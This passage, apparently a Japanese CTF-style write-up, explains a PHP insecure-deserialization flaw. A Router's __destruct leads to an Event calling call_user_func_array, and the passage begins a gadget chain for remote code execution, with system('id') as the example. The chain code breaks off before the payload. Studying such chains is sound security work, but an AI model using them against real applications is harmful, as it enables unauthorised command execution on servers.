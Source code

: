```php
        } catch (\Exception $e) {
            header("HTTP/1.1 500 Internal Server Error");
            if (defined('APP_DEBUG') && APP_DEBUG) {
                echo "Error: " . $e->getMessage();
            } else {
                echo "Internal Server Error";
            }
        }
    }

    public function __destruct()
    {
        $this->dispatch();
    }
}
```

Event.php

```php
class Event
{
    private $callback;
    private $args;

    public function __construct($callback, $args)
    {
        $this->callback = $callback;
        $this->args = $args;
    }

    public function execute()
    {
        call_user_func_array($this->callback, $this->args);
    }
}
```

Router オブジェクトは Event オブジェクトを持ち、Event の `execute()` にて [`call_user_func_array`](https://www.php.net/manual/ja/function.call-user-func-array.php) が呼び出されます。
`call_user_func_array()` は関数やオブジェクトのメソッドをコールする関数であり、例えば `call_user_func_array('system', ['id']);` を実行すると `system('id')` が呼び出され、OS コマンドである `id` が実行されます。
今回の場合、`call_user_func_array()` の引数は Event オブジェクトのプロパティである `$callback` と `$args` です。
そして、Router では `__destruct()` が実装されており、`dispatch()` メソッドを呼び出しています。
これより、Router オブジェクトを unserialize すると `__destruct()` が呼び出されることを利用し、最終的に `call_user_func_array()` に期待する関数とその引数を渡すような Gadget Chain を作れば、RCE が可能になります。

以下はその Gadget Chain です。

```php
<?php

namespace Core {
    class Router
    {
        public $event;
    }

    class Event
    {
        public $callback;
        public $args;
    }
}

namespace {
```